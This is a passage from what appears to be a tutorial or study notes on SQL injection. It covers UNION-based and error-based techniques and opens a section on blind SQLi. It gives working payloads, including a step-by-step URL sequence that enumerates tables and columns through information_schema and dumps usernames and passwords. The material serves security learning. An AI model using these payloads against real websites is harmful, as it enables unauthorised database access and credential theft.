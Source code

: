 Suppose that:

- The first two steps showed exactly two existing columns with useful datatype.
- The database contains a table called users with the columns username and password.

In this situation, you can retrieve the contents of the user's table by submitting the input:
    
```sql
' UNION SELECT username, password FROM users --
```

Here's a small list of thing you'd want to retrieve:

1. database()
2. user()
3. @@version
4. username
5. password
6. table_name
7. column_name

## Practical
The key to discovering error-based SQL Injection is to break the code's SQL query by trying certain characters until an error message is produced; these are most commonly single apostrophes ( ' ) or a quotation mark ( " ).

Examples of error-based SQL Injection:

```bash
# Website
https://website.com/article?id=1

# Test for error with single quote
https://website.com/article?id=1'
'
# Exploit
https://website.com/article?id=1 UNION SELECT 1,2,3

# Get database name
https://website.com/article?id=0 UNION SELECT 1,2,database()

# Get table names
https://website.com/article?id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'

# Get a specific table's column names
https://website.com/article?id=0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'

# Get a specific table's column data
https://website.com/article?id=0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```

# Blind SQL Injection - Authentication Bypass
## Blind SQLi
Unlike In-Band SQL injection, where we can see the results of our attack directly on the screen, blind SQLi is when we get little to no feedback to confirm whether our injected queries were, in fact, successful or not, this is because the error messages have been disabled, but the injection still works regardless. It might surprise you that all we need is that little bit of feedback to successful enumerate a whole database.
